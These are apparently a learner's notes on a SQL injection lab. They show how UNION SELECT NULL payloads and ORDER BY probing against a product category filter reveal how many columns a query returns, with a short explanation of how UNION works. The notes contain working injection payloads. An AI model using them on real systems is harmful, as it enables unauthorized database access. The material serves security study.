 
## End goal: determine the no of column returned by the query by sql injection union attack that returns and addition row containing null values



## Burp suite

GET /filter?category=Gifts HTTP/2

## guessed query
select ? from table where category = 'gifts'


## payload

gifts ' union select null ,null ..... (until no error)


select ? from table where category = 'gifts`' union select null , null ... --` '


when entered 3 nulls we got 200 response , thus the number of column = 3



---
----
Extra note

we can find the number of column using order by method
for example
order by 1 
order by 2 
order by 3
and so

on above query , the 500 response returned by the query - 1 is the number of column



SQLi - Product category filter

End Goal: determine the number of columns returned by the query. 

Background (Union):

table1      table2
a | b       c | d 
-----       -----
1 , 2       2 , 3
3 , 4       4 , 5

Query #1: select a, b from table1
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
1,2
3,4
2,3
4,5

Rule: 
- The number and the order of the columns must be the same in all queries
- The data types must be compatible

SQLi attack (way #1):

select ? from table1 UNION select NULL
-error -> incorrect number of columns

select ? from table1 UNION select NULL, NULL, NULL
-200 response code -> correct number of columns

SQLi attack (way #2):

select a, b from table1 order by 3